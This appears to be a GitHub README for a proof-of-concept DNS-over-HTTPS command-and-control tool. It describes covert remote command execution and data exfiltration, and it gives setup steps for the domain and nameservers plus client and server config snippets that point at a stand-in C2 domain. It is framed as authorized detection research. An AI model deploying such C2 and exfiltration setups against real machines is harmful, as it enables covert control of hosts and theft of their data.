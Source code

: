 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)
For server side linux

1. **Client Side**
   Python:
        Install Python 3.x from the official website or your package manager.
    Requests Library:
       Install the requests library using pip:
       pip install requests
3. **Server side** only Linux
    Dnslib Library:
    Install the dnslib library using pip
   
    pip install dnslib


4. Register domain 
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/adb40d21-4985-465c-864f-a286b49a2bc1)
Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 4  

if __name__ == "__main__":
    domain_name = "send.example.com"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run
![grafik](https://github.com/user-attachments/assets/3e2a5718-88fd-4a66-a48d-d129c276fbdf)



**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/44bde720-9619-44ed-ac1c-47f34b54e5ca)

Note instaead of the  example.com.co you should see your domain name
Run: python3 doh_server.py

# Architecture TODO
# Detection Tips TODO
